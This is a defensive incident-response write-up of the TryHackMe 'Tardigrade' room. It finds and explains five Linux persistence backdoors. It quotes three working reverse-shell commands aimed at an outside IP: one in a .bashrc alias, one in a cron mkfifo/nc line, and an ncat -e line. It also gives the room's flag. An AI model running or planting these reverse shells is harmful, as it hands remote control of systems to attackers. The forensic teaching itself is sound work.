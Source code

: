 # [TryHackMe - Tardigrade](https://tryhackme.com/room/tardigrade)
![e3c209fe00d6503716cccae1db4969f3.png](../../_resources/e3c209fe00d6503716cccae1db4969f3.png)
***
[toc]
***
## Connect to the machine via SSH
**A server has been compromised, and the security team has decided to isolate the machine until it's been thoroughly cleaned up. Initial checks by the Incident Response team revealed that there are five different backdoors. It's your job to find and remediate them before giving the signal to bring the server back to production.**

>What is the server's OS version?

![dcf367d3e49a53520655ef25b7a86d2a.png](../../_resources/dcf367d3e49a53520655ef25b7a86d2a.png)

After connected to the compromised machine via SSH, we can use either of these command to get the OS version of this machine 
- `cat /etc/issues`
- `cat /etc/os-release`
- `hostnamectl`
- `lsb_release -a`
- `uname -a`

```
Ubuntu 20.04.4 LTS
```

* * *
## Investigating the giorgio account
**Since we're in the giorgio account already, we might as well have a look around.**

>What's the most interesting file you found in giorgio's home directory?

![1848406cbece65641b1b4f6613987956.png](../../_resources/1848406cbece65641b1b4f6613987956.png)

First thing we could do when investigate malware residing on the home directory is to run `ls -lha` which will display all files including hidden files of the current directory then we can see that `.bad_bash` appears to be very suspicious one since the rest are common files/folders that could be found on other Linux systems as well plus the file owns by root on other user directory is always picking an interested.  

![9e9e5c3644691f81a9bb8e978a81b306.png](../../_resources/9e9e5c3644691f81a9bb8e978a81b306.png)

By using `file` utility, we can see that this file is ELF file so its a standard binary to be executed on Linux and this file appears to be the answer of this question as well.

```
.bad_bash
```

>In every investigation, it's important to keep a dirty wordlist to keep track of all your findings, no matter how small. It's also a way to prevent going back in circles and starting from scratch again. As such, now's a good time to create one and put the previous answer as an entry so we can go back to it later. <br>
Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in giorgio's .bashrc?

![b724eda620d469b6114bff2a5a98fd04.png](../../_resources/b724eda620d469b6114bff2a5a98fd04.png)

`.bashrc` file is a script file that executed when respective user login which contains a lot of configuration, alias and can be abused to add persistence shell command within it and seem like we have one in this case as well, the attacker set alias for `ls` command to execute reverse shell command to 172.10.6.9 on port 6969.

```
ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
```

>It seems we've covered the usual bases in giorgio's home directory, so it's time to check the scheduled tasks that he owns.<br>
Did you find anything interesting about scheduled tasks?

![2dba2c78f82ea98eb93732b6631ea844.png](../../_resources/2dba2c78f82ea98eb93732b6631ea844.png)

Another popular persistence mechanism on Linux is cronjob which we can use `crontab -l` to list cronjob own by respective user who executed the command and in this case, we can see that there is an another reverse shell script being executed every minute to the same IP address and port from previous question.

```
/usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f
```

* * *
## Investigating the root account
**Normal user accounts aren't the only place to leave persistence mechanisms. As such, we will then go ahead and investigate the root account.**

>A few moments after logging on to the root account, you find an error message in your terminal. <br>
What does it say?

![035f02b78c7ccfbca0c437be759eab22.png](../../_resources/035f02b78c7ccfbca0c437be759eab22.png)

By running `sudo -l`, we can see that current user is capable to execute any command as root so we can switch to root user with `sudo su` and then as soon as we entered root shell, and error message displayed as seen in the image above. and this error exclusively has something to do with `ncat` so its likely to be another persistence mechanism to execute reverse shell as root.

```
Ncat: TIMEOUT.
```

>After moving forward with the error message, a suspicious command appears in the terminal as part of the error message. <br>
What command was displayed?

![59020ce51dc3aff17abc6384b201b07b.png](../../_resources/59020ce51dc3aff17abc6384b201b07b.png)

After typing "Enter", we can see the command that triggered the error and we confirmed that this is the reverse shell command that will connect to the same IP address we found earlier. 

```
ncat -e /bin/bash 172.10.6.9 6969
```

>You might wonder, "how did that happen? I didn't even do anything? I just logged as root, and it happened." <br>
Can you find out how the suspicious command has been implemented?

![02c3aa79d818ffdd1a444be3906353dc.png](../../_resources/02c3aa79d818ffdd1a444be3906353dc.png)

When switch user to root, the behavior is likely to be the same as login and the persistence mechanism that can be triggered via login on each user is `.bashrc` which we can see that there is the same command we found from the previous question reside on the `.bashrc` of root user. 

```
.bashrc
```

* * *
## Investigating the system
**After checking the giorgio and the root accounts, it's essentially a free-for-all from here on, as finding more suspicious items depends on how well you know what's "normal" in the system.**

>There's one more persistence mechanism in the system.<br>
A good way to systematically dissect the system is to look for "usuals" and "unusuals". For example, you can check for commonly abused or unusual files and directories.<br>
This specific persistence mechanism is directly tied to something (or someone?) already present in fresh Linux installs and may be abused and/or manipulated to fit an adversary's goals. What's its name?<br>
What is the last persistence mechanism?

![af3fde8558c47fce831f1ec1ff05935d.png](../../_resources/af3fde8558c47fce831f1ec1ff05935d.png)

Since there is no SSH public key backdoor and cronjob as root found, I checked all users from `/etc/passwd` which I found that there is another user with has the same uid as root which mean this user is another root user on this machine and it just happened to be the backdoor user and the last persistence mechanism we are looking for.

```
nobody
```

* * *
## Final Thoughts
**Now that you've found the final persistence mechanism, it's time to clean up. The persistence mechanisms tackled in this room are common and straightforward; as such, the process of eradicating them is simple.**

**The first four persistence mechanisms can be remediated by simply removing the mechanism (e.g. delete the file, remove the commands). The last one, however, involves bringing back the "unusuals" to their "usual" state, which is a bit more complex as you intend for that particular user, file or process to function as before.**

>Finally, as you've already found the final persistence mechanism, there's value in going all the way through to the end. <br>
The adversary left a golden nugget of "advise" somewhere. <br>
What is the nugget?

![9c0db4a5c4137ec5ffc97bb2aeb9a9ff.png](../../_resources/9c0db4a5c4137ec5ffc97bb2aeb9a9ff.png)

From the previous result (`/etc/passwd`), we found that the home directory of nobody user is `/nonexistence` so I went to this directory and list all the files which there is 1 hidden file that really stand out here that contains a flag so we can display the content of this file with `cat` directly.

```
THM{Nob0dy_1s_s@f3}
```

![f6fac30d86db78725cde01455aaae920.png](../../_resources/f6fac30d86db78725cde01455aaae920.png)

And we are done!
***